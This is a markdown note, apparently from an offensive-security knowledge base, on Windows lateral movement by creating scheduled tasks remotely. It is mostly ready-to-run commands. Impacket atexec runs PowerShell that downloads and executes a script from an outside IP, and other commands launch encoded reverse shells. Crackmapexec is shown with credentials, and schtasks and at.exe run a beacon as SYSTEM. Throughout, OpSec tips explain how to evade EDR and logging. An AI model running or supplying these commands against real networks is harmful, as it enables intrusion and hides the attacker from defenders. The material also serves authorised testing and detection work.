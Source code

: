 ```yaml
---
title: Lateral Movement with Scheduled Tasks
---
```


[[notes/lateral-movement/index]] by using the [MS-TSCH](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/) protocol to create or update scheduled tasks and execute commands in system context.

Create a scheduled task over a named pipe on SMB to execute a reverse shell.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-atexec -k -no-pass -silentcommand srv01.corp.local 'powershell.exe -ep bypass -c iex(irm 192.168.80.185/one.ps1)'
    impacket-atexec -k -no-pass -silentcommand srv01.corp.local "powershell.exe -ep bypass -e $(iconv -t utf16le ./shell.ps1 | base64 -w0)"
    ~~~

    **OpSec:**
    The command is executed with `cmd.exe`, the output is written to a file and downloaded over SMB.
    This can be avoided by specifying `-nooutput`.

=== "[[notes/tools/crackmapexec]]"
    ~~~ bash
    crackmapexec smb srv01.corp.local -u jdoe -p 'passw0rd' --no-output --exec-method atexec -x "powershell.exe -ep bypass -e $(iconv -t utf16le ./shell.ps1 | base64 -w0)"
    ~~~

    **OpSec:** Many EDRs detecte the use of `-X`.

=== "schtasks"
    ~~~ bat
    schtasks.exe /s srv01.corp.local /create /tn "Background Task 72" /tr "c:\windows\temp\beacon.exe" /ru "NT Authority\SYSTEM" /sc onstart
    schtasks.exe /s srv01.corp.local /run /tn "Background Task 72"
    schtasks.exe /s srv01.corp.local /delete /tn "Background Task 72" /f
    ~~~

=== "at"
    Start a reverse shell at 14:00.

    ~~~ bat
    at.exe \\srv01.corp.local 14:00 "powershell.exe -ep bypass -e %payload%"
    ~~~

    Cleanup.

    ~~~ bat
    at.exe \\srv01.corp.local
    at.exe \\srv01.corp.local %id% /delete /yes
    ~~~

> **OpSec:**
> To avoid detections modify the command of an existing task or overwrite the binary of an existing task.

Untested tools:

- [TaskShell](https://github.com/RiccardoAncarani/TaskShell), modifies the command of a scheduled task

References:

- [Scheduled task tampering](http://web.archive.org/web/20221111232306/https://labs.withsecure.com/publications/scheduled-task-tampering), as the machine account create a scheduled task without logging events by directly writing registry keys
